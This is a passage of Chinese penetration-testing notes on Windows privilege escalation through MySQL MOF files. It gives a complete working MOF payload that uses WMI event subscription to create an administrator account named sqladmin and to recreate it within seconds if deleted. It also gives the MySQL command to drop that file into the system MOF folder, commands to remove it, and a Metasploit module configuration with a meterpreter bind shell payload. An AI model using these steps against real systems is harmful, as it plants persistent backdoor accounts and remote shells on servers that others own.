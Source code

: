 ```ini
#pragma namespace("\\.\root\subscription")

instance of __EventFilter as
{
EventNamespace = "Root\Cimv2";
Name  = "filtP2";
Query = "Select * From __InstanceModificationEvent "
    "Where TargetInstance Isa \"Win32_LocalTime\" "
    "And TargetInstance.Second = 5";
QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as
{
Name = "consPCSV2";
ScriptingEngine = "JScript";
ScriptText =
"var WSH = new ActiveXObject(\"WScript.Shell\") WSH.run(\"net.exe user sqladmin admin /add&&net.exe localgroup administrators sqladmin /add\")";
};

instance of __FilterToConsumerBinding
{
Consumer   = ;
Filter = ;
};
```
1. 保存为 1.mof,然后 mysql 执行:`select load_file('D:/wwwroot/1.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof';`
2. mof 被执行的话,会帮我们添加一个叫 sqladmin 的用户.

**关于 Mof 提权的弊端**

我们提权成功后,就算被删号,mof 也会在五秒内将原账号重建,那么这给我们退出测试造成了很大的困扰,所以谨慎使用.那么我们如何删掉我们的入侵账号呢？
```
net stop winmgmt
del c:/windows/system32/wbem/repository
net start winmgmt
```

- MSF 模块
    ```bash
    use exploit/windows/mysql/mysql_mof
    set RHOSTS <ip>
    set USERNAME <user>
    set PASSWORD <pass>
    set payload windows/meterpreter/bind_tcp
    set RHOST <ip>
    set LPORT 4444
    exploit
    ```

**启动项提权**

